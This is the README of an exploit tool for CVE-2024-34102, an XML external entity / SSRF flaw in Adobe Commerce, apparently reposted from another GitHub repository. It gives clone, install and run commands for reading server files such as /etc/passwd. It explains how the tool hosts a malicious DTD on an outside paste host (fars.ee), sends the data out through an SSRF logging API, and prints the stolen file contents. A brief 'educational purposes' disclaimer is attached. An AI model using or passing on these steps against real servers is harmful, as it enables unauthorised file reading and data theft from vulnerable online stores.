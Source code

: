 # 🚨 CVE-2024-34102 Exploit Script 🚨

## Description
<i>((IM NOT THE ORIGINAL OWNER. TOOK IT FROM -> https://github.com/Chocapikk/CVE-2024-34102))</i>

This script exploits a Server-Side Request Forgery (SSRF) vulnerability in Adobe Commerce versions 2.4.7, 2.4.6-p5, 2.4.5-p7, 2.4.4-p8, and earlier. The vulnerability allows for arbitrary code execution by sending a crafted XML document that references external entities. Exploitation of this issue does not require user interaction.

## Installation

1. 📥 **Clone the repository:**
    ```sh
    git clone https://github.com/Chocapikk/CVE-2024-34102.git
    cd CVE-2024-34102
    ```

2. 📦 **Install the required packages:**
    ```sh
    pip install -r requirements.txt
    ```

## Usage

### Basic Command

```sh
python exploit.py -u <target_url> -f <file_to_read>
```

### Example

```sh
python exploit.py -u http://target.com -f /etc/passwd
```

### Options

- `-u`, `--url` (required): Specify the target URL or domain.
- `-f`, `--file` (optional): Specify the file to read from the server. Default is `/etc/passwd`.

## How It Works

1. **Initialization**:
   - Input: Target URL and file to read (default: `/etc/passwd`)
   - Disable security warnings

2. **Generate Callback URL**:
   - Create a unique DTD file containing malicious XML entities.
   - Host the DTD file on fars.ee.
   - Print the created callback URL and the file to be read.

3. **Obtain Instance ID**:
   - Obtain an instance ID from the SSRF API.

4. **Send Malicious Request**:
   - Construct a request with the malicious DTD URL.
   - Send the request to the target URL.

5. **Check Exploitation Success**:
   - Check instance logs from the SSRF API.
   - Decode and display the exfiltrated data if the exploitation is successful.

6. **Cleanup**:
   - Clear instance logs.
   - Delete the instance.

7. **Output Result and Finish**:
   - Print whether the target URL is vulnerable or not.

## Example Output

```sh
[+] Created Callback URL: https://fars.ee/abcd1234.dtd
[+] File to be read: /etc/passwd
[+] Decoded Exploited Data: 
root:x:0:0:root:/root:/bin/bash
...
[+] Vulnerable URL: http://target.com
```

## Notes

- ⚠️ **Disclaimer**: This script is for educational purposes only. Unauthorized use of this script against a target without permission is illegal.
- 💡 **Tip**: Always ensure you have permission to test a target system for vulnerabilities.

## Credits

- ❤️ Credits to @th3gokul & Sanjaith3hacker for the original code base.
